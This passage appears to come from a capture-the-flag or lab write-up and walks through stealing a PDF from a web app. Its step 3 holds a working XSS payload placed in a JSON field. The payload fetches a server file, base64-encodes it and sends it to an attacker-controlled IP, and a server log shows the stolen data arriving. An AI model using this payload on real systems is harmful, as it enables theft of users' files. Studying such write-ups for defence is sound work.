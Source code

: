 We obtained the client's HTML code and looked for the latest PDF link.

```html
<td>
    <td>2024-09-03T00:22:27.568Z</td>
    <td>
        <a href="?download=true&file=2024-09-03T00%3A22%3A27.568Z.json" class="download-btn">Download PDF</a>
    </td>
</td>
```

### Step 3

We sent the following JSON to the `data` topic to retrieve the PDF file from the obtained URL on our HTTP service. In our case, `/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json`.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:10:55] "GET /?data=JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAA ... dGFydHhyZWYKMTk0MzEKJSVFT0YK HTTP/1.1" 200 -
```

### Step 4

We save the base64 code of the PDF in a file and convert it to PDF.

```bash
$ head -c 100 base64pdf3.txt
JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAARABhAHQAYSkKL0NyZWF0b3Ig               
$ cat base64pdf3.txt | base64 -d > document3.pdf
```

We open it and obtain another base64 code, this time from the PHP file loaded locally by the server.
